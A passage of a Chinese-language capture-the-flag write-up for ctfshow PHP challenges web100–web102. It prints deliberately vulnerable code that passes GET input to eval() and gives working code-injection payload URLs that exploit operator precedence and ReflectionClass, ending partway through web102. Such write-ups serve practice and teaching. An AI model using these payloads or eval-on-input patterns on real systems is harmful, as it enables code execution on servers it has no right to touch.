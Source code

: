 ## web100（优先级）
```php
<?php

highlight_file(__FILE__);
include("ctfshow.php");
//flag in class ctfshow;
$ctfshow = new ctfshow();
$v1=$_GET['v1'];
$v2=$_GET['v2'];
$v3=$_GET['v3'];
$v0=is_numeric($v1) and is_numeric($v2) and is_numeric($v3);
if($v0){
    if(!preg_match("/\;/", $v2)){
        if(preg_match("/\;/", $v3)){
            eval("$v2('ctfshow')$v3");
        }
    }
}
?>
```
很多人对第10行有一个误区啊，认为一定要v1v2v3都是数字才能满足v0=1，其实不然，在php中赋值的优先级是要比与运算高的，也就是说只要满足v1是数字v0就会被赋值为1，v2v3是什么并不影响v0；其次第5行说falg在ctfshow类里，那么其实可以v2就直接new一个ctfshow然后打印，php仍会执行，不要被第14行误导；最后v3传个分号满足判断条件即可
最后要注意将得到的flag中的0x2d换位-，因为0x2d对应的字符就是-，同时ctfshow的flag格式都是有-的，也算是一个小坑了
payload：/?v1=1&v2=var_dump(new ctfshow)&v3=;
## web101（Reflectionclass）
```php
<?php

highlight_file(__FILE__);
include("ctfshow.php");
//flag in class ctfshow;
$ctfshow = new ctfshow();
$v1=$_GET['v1'];
$v2=$_GET['v2'];
$v3=$_GET['v3'];
$v0=is_numeric($v1) and is_numeric($v2) and is_numeric($v3);
if($v0){
    if(!preg_match("/\\\\|\/|\~|\`|\!|\@|\#|\\$|\%|\^|\*|\)|\-|\_|\+|\=|\{|\[|\"|\'|\,|\.|\;|\?|[0-9]/", $v2)){
        if(!preg_match("/\\\\|\/|\~|\`|\!|\@|\#|\\$|\%|\^|\*|\(|\-|\_|\+|\=|\{|\[|\"|\'|\,|\.|\?|[0-9]/", $v3)){
            eval("$v2('ctfshow')$v3");
        }
    }   
}
?>
```
主要过滤了v2的右括号，很多函数不能用了，这里考虑php的反射类，拼接而成报告ctfshow类的信息。需要注意的是，除了替换0x2d外，题目还少给了一位flag，那么就需要爆破最后一位字符0-f16次即可
payload：/?v1=1&v2=echo new Reflectionclass&v3=;
## web102（巧妙的构造）
```php
<?php

highlight_file(__FILE__);
$v1 = $_POST['v1'];
$v2 = $_GET['v2'];
$v3 = $_GET['v3'];
$v4 = is_numeric($v2) and is_numeric($v3);
if($v4){
```